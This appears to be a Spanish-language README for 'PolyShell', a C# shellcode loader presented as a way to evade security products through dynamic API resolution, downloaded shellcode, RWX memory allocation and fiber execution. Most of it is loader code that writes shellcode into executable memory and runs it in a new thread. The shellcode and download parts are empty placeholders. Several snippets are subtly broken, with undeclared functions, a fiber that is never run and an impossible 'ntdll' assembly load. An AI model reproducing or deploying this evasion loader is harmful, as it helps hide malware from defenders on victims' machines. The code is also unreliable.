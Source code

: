 # PolyShell: Ejecución de Shellcode Polimórfico

PolyShell es una técnica avanzada de ejecución de shellcode que utiliza el polimorfismo para evadir la detección de las soluciones de seguridad. Esta técnica aprovecha diversas estrategias, como DInvoke (Dynamic Invocation), descarga de shellcode desde Internet, asignación de memoria no convencional y ejecución de código desde hilos de fibra, para eludir las defensas tradicionales y ejecutar código malicioso de manera sigilosa.

## Características Principales:

- **DInvoke (Dynamic Invocation):** PolyShell utiliza DInvoke para invocar funciones de la API de Windows de manera dinámica.
  
- **Descarga de Shellcode desde Internet:** PolyShell descarga el shellcode de un servidor remoto, dificultando su detección durante el análisis estático.
  
- **Asignación de Memoria No Convencional:** PolyShell utiliza llamadas al sistema menos comunes para asignar memoria en el proceso, evitando las técnicas de detección convencionales.
  
- **Ejecución de Código desde Hilos de Fibra:** PolyShell ejecuta el shellcode en hilos de fibra para camuflar su ejecución y evitar la detección.

## Uso:

Para utilizar PolyShell, sigue estos pasos:

1. **Descargar el Repositorio:** Clona este repositorio en tu máquina local.

2. **Compilar el Código:** Abre el proyecto en tu IDE preferido y compila el código fuente de PolyShell.

3. **Ejecutar el Binario:** Ejecuta el binario compilado en una máquina de prueba o en un entorno controlado.

4. **Observa el Comportamiento:** Observa cómo PolyShell evade las defensas de seguridad y ejecuta el shellcode de manera sigilosa.


# Técnica DInvoke (Dynamic Invocation)

La técnica DInvoke (Dynamic Invocation) es una estrategia utilizada en el desarrollo de malware y herramientas de hacking para invocar funciones de la API de Windows de manera dinámica en tiempo de ejecución. Esto permite evadir la detección estática y el análisis de malware, ya que las funciones API se resuelven en tiempo de ejecución en lugar de estar enlazadas estáticamente durante la compilación.

## Uso de DInvoke

La técnica DInvoke se basa en la resolución dinámica de funciones de la API de Windows utilizando llamadas a la biblioteca dinámica `kernel32.dll`. A continuación se muestra un ejemplo de cómo utilizar DInvoke para invocar la función `MessageBoxA` de la API de Windows:

```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    // Declaración de la función MessageBoxA de la API de Windows
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, string text, string caption, uint type);

    static void Main()
    {
        // Resolución dinámica de la función MessageBoxA utilizando DInvoke
        IntPtr user32Module = LoadLibrary("user32.dll");
        IntPtr messageBoxAddress = GetProcAddress(user32Module, "MessageBoxA");

        // Delegado para la función MessageBoxA
        MessageBoxDelegate messageBox = (MessageBoxDelegate)Marshal.GetDelegateForFunctionPointer(messageBoxAddress, typeof(MessageBoxDelegate));

        // Llamada dinámica a la función MessageBoxA
        messageBox(IntPtr.Zero, "Hello, World!", "Message", 0);
    }

    // Declaración de un delegado para la función MessageBoxA
    delegate int MessageBoxDelegate(IntPtr hWnd, string text, string caption, uint type);

    // Declaración de funciones para la resolución dinámica de la función MessageBoxA
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr LoadLibrary(string dllName);

    [DllImport("kernel32.dll", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
   

# Técnica Fiber Shellcode

Fiber Shellcode es una técnica utilizada en el desarrollo de malware y herramientas de hacking para ejecutar código malicioso en un hilo de fibra en lugar de un hilo tradicional en un proceso de Windows. Esta técnica se utiliza para evadir la detección de seguridad y camuflar la ejecución del shellcode.

## Ejemplo de Código

A continuación se muestra un ejemplo simplificado de cómo se implementa la técnica de Fiber Shellcode en C#:

```csharp
using System;
using System.Runtime.InteropServices;
using System.Threading;

class Program
{
    // Función para ejecutar shellcode en un hilo de fibra
    static void FiberShellcode()
    {
        // Código para descargar y ejecutar el shellcode...
    }

    // Declaraciones de las funciones nativas necesarias
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateFiber(uint dwStackSize, ThreadStart lpStartAddress, IntPtr lpParameter);

    [DllImport("kernel32.dll")]
    public static extern void ConvertFiberToThread();

    static void Main(string[] args)
    {
        // Convertir el hilo actual en un hilo de fibra
        IntPtr lpFiber = ConvertThreadToFiber(IntPtr.Zero);

        // Crear un nuevo hilo de fibra y ejecutar el shellcode
        IntPtr fiber = CreateFiber(0, new ThreadStart(FiberShellcode), IntPtr.Zero);

        // Restaurar el contexto original del hilo
        ConvertFiberToThread();
    }
}

# Técnica de Asignación de Memoria No Convencional

La técnica de Asignación de Memoria No Convencional es una estrategia utilizada en el desarrollo de malware y herramientas de hacking para alojar y ejecutar código malicioso en regiones de memoria inusuales o no convencionales en un proceso de Windows. Esta técnica se utiliza para evadir la detección de seguridad y dificultar el análisis forense.

## Ejemplo de Código

A continuación se muestra un ejemplo simplificado de cómo se implementa la técnica de Asignación de Memoria No Convencional en C#:

```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    // Declaración de la función intermedia para invocar NtAllocateVirtualMemory
    public delegate IntPtr NtAllocateVirtualMemoryDelegate(IntPtr ProcessHandle, ref IntPtr BaseAddress, IntPtr ZeroBits, ref UIntPtr RegionSize, UInt32 AllocationType, UInt32 Protect);

    // Función intermedia para invocar NtAllocateVirtualMemory
    static IntPtr InvokeNtAllocateVirtualMemory(IntPtr ProcessHandle, ref IntPtr BaseAddress, IntPtr ZeroBits, ref UIntPtr RegionSize, uint AllocationType, uint Protect)
    {
        var ntdll = System.Reflection.Assembly.Load("ntdll");
        var ntAllocateVirtualMemory = ntdll.GetType("NTDLL.NativeMethods").GetMethod("NtAllocateVirtualMemory");
        return (IntPtr)ntAllocateVirtualMemory.Invoke(null, new object[] { ProcessHandle, BaseAddress, ZeroBits, RegionSize, AllocationType, Protect });
    }

    // Función para ejecutar shellcode en un proceso de destino utilizando Asignación de Memoria No Convencional
    static void ExecuteShellcode()
    {
        // Shellcode a ejecutar
        byte[] shellcode = { /* Shellcode aquí */ };

        // Invocar la función intermedia para realizar la asignación de memoria no convencional
        IntPtr processHandle = GetCurrentProcess();
        IntPtr baseAddress = IntPtr.Zero;
        UIntPtr regionSize = new UIntPtr((uint)shellcode.Length);
        IntPtr result = InvokeNtAllocateVirtualMemory(processHandle, ref baseAddress, IntPtr.Zero, ref regionSize, 0x3000, 0x40);
        if (result != IntPtr.Zero)
        {
            Console.WriteLine($"Error al asignar memoria no convencional: 0x{result.ToInt32():X}");
            return;
        }

        // Copiar el shellcode a la memoria asignada
        Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);

        // Ejecutar el shellcode desde la memoria asignada
        IntPtr threadHandle = IntPtr.Zero;
        IntPtr threadId = IntPtr.Zero;
        threadHandle = CreateThread(IntPtr.Zero, 0, baseAddress, IntPtr.Zero, 0, ref threadId);
        WaitForSingleObject(threadHandle, 0xFFFFFFFF);
    }

    // Declaraciones de las funciones nativas necesarias
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetCurrentProcess();

    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, ref IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

    static void Main(string[] args)
    {
        // Ejecutar el shellcode en un proceso de destino
        ExecuteShellcode();
    }
}


Descargo de Responsabilidad:
Descargo de Responsabilidad: PolyShell es una herramienta de investigación diseñada para demostrar técnicas avanzadas de evasión de seguridad. El uso de PolyShell con fines maliciosos está estrictamente prohibido. Los autores y los contribuyentes no se hacen responsables del uso indebido de esta herramienta.


